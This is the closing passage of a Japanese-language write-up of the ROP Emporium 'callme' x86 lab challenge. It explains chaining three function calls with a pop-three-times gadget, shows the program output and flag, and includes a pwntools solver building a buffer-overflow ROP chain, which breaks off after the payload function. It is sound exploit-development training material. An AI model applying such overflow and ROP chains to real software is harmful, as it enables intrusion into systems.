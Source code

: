 ```

にゃぁぁん。callme_one()がいい感じに通り抜けたから何って感じだァァ

callme_twoとcallme_threeも似たような感じなので、

全部通してみるか。

全部通すためにropgadgetを使ってそれぞれの引数分をpopして、一番上にfuncのアドレスを持ってくれば

いい感じに通せる

```
 10% ❯ cat input |  callme32
callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{C4ll1ng_w1th_params_1n_x86}
```

## まとめ

![image-20211216235319227](/home/mizuiro/.config/Typora/typora-user-images/image-20211216235319227.png)

ちゃんと問題文は読みましょう



## solver

```
from platform import system
from pwn import *

BINARY = "./callme32"
ELF = ELF(BINARY)

context.os = "linux"
context.arch = "i386"
context.binary = BINARY

p = process(BINARY)

def payload_1():
    rop = b"A" * 44
    for func in ['callme_one', 'callme_two', 'callme_three']:
        rop += p32(ELF.symbols[func])
        rop += p32(0x080487f9) # pop 3 times ret;
        rop += p32(0xdeadbeef)
        rop += p32(0xcafebabe)
        rop += p32(0xd00df00d) 
    return rop
